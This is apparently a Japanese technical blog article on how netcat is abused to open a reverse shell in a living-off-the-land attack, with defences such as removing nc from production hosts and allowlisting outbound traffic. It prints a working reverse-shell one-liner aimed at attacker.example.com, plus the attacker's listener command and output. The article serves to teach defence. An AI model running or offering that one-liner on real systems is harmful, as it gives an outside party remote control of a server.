

## はじめに

インフラエンジニアがサーバー構築やネットワークのトラブルシューティングを行う際、ポートの疎通確認や簡単な単発サーバーの立ち上げに重宝するツールが `nc`（Netcat）です。その多機能さゆえに「ネットワークのTCP/IPアーミーナイフ」とも称されますが、この強力なツールはサイバー攻撃において、外部からサーバーを遠隔操作するための土管として頻繁に悪用されます。

本記事では、日々の業務で頼りになるネットワークコマンドが、どのようにしてサーバーを乗っ取るための「リバースシェル」へと変貌するのか、その原理と対策を解説します。

## 対象者

- サーバーやネットワークの運用を担当しているインフラエンジニア
- アプリケーションの脆弱性やサーバーへの侵入経路について知りたい方
- 最新のサイバー攻撃の手口を学び、防御策を講じたい方

## リバースシェルと環境寄生型攻撃

通常、システム管理者がサーバーにリモートアクセスする際は、手元のPCからサーバーのSSHポートなどに向けて通信を開始します。これをバインドシェルと呼びます。しかし、ファイアウォールやNATが存在する環境では、外部からの不要な通信はすべてブロックされているのが一般的です。

そこで攻撃者は、内部にある標的サーバーの方から、外部にある攻撃者のサーバーに向けて通信を開始させるという逆転の発想を用います。これが「リバースシェル」と呼ばれる手法です。



このリバースシェルを確立するにあたり、自前のマルウェアを持ち込まずとも、すでにサーバーに常備されている `nc` コマンドを利用して遠隔操作の経路を確立してしまうのが、環境寄生型攻撃（Living off the Land）の恐ろしい点です。

## 攻撃プロセスとメカニズム

攻撃者は、OSコマンドインジェクションや任意のファイルアップロードといったアプリケーション層の脆弱性を突破口としてシステム内部で任意のコマンドを実行できる状態（RCE）を作り出します。そして、すかさず以下のコマンドを実行し、外部にある自身のサーバーへと接続を試みます。

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc attacker.example.com 4444 >/tmp/f
```
※上記のコマンドは一般的なNetcatでリバースシェルを起動する古典的なワンライナーです。

この一行が実行されると、サーバー内部の対話型シェル（`bash -i`）の入力と出力が、名前付きパイプ（`/tmp/f`）を経由して `nc` コマンドに連結されます。その結果、サーバーのコマンドラインインターフェースそのものがネットワーク越しに攻撃者の手元へと転送されることになります。

:::message alert
管理者がファイアウォールで外部からの不正なアクセス（インバウンド通信）をどれだけ強固に遮断していても、サーバー内部から外部へ向かって発信される通信（アウトバウンド通信）が素通りする設定になっていれば、この遠隔操作の経路はあっけなく開通してしまいます。
:::

#### コラム（攻撃者側の待ち受けとサーバー側の痕跡）

この攻撃が成功する背後で、攻撃者は事前に自身のサーバーでNetcatの待ち受け用コマンドを実行し、獲物がかかるのを待っています。

```bash
# 攻撃者が自身のサーバーで実行する待ち受けコマンド
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.0.2.55] from (UNKNOWN) [198.51.100.22] 58392
bash: no job control in this shell
bash-5.0$ # ←ここで標的サーバーのプロンプトが奪取される
```

一方、被害を受けている最中のサーバー内部でプロセス一覧を確認すると、標準的なコマンドが不気味なパイプ処理とともに稼働している痕跡が確認できます。

```bash
# 標的サーバー上でプロセスを確認した例
$ ps aux | grep nc
www-data  3456  0.0  0.1  1234  567 ?  S  11:00  0:00 nc attacker.example.com 4444
```

## サイバー攻撃に対する防衛手段

このような正規コマンドによる遠隔操作の経路確立に対しては、不要なツールの排除とネットワーク層での厳格な制御が不可欠です。

第一に、本番環境のサーバーには運用に直結しない不要なツールを残さないことです。インフラ構築のデバッグ時には便利だった `nc` のようなネットワークユーティリティも、運用フェーズに入った本番環境のサーバー内部からはアンインストールすることが推奨されます。コンテナ技術を採用し、本番用のイメージにはシェルやネットワーク確認ツールを一切含めない（Distroless化）ことも有効な防御策です。

第二に、アウトバウンド通信のホワイトリスト化による出口対策です。「外から中へ」の通信経路を塞ぐだけでなく、「中から外へ」の通信も厳格に管理します。サーバーからの外部通信は、業務上真に必要な宛先IPアドレスとポートのみを許可し、それ以外のすべての外部通信をデフォルトで拒否する設定とします。

これにより、仮にコマンドインジェクション等で `nc` コマンドが実行されたとしても、攻撃者のサーバーへ到達する前にファイアウォールでパケットが破棄され、リバースシェルの確立を水際で防ぐことができます。

## おわりに

私が新人の頃、先輩から「ネットワークの切り分けにはまずncを使ってごらん」と教わり、その便利さに感動した覚えがあります。しかし、同時にその便利すぎるツールが、たった一行でシステムを丸ごと外部に明け渡してしまう脅威になり得ると知ったときの驚きも鮮明です。

便利な道具ほど、扱い方を間違えれば鋭い刃へと変わります。「サーバーの中から外へ出ていく通信なら危なくないだろう」という先入観を捨て、出口の扉もしっかりと施錠する意識を持つことが、よりセキュアなインフラ環境を築く第一歩になるのではないかと思います。

本記事が、サーバー運用のネットワークセキュリティ方針を見直す参考となれば幸いです。

---

### SNS共有用テンプレート

🆕 Zenn記事を公開しました！
【🔌疎通確認ツールが遠隔操作の糸口に？nc（Netcat）を悪用したリバースシェルの脅威と対策】

インフラ業務でお馴染みのコマンド、実は外部からサーバーを遠隔操作するための最高の土管になり得ます。
✅ 攻撃者が用いるリバースシェルの仕組み
✅ nc（Netcat）を悪用した環境寄生型攻撃
✅ 不要ツールの削除と出口対策の重要性

▼記事はこちら
https://zenn.dev/xxx/articles/lotl-nc-reverseshell
#セキュリティ #ネットワーク #Linux #サイバー攻撃 #エンジニア
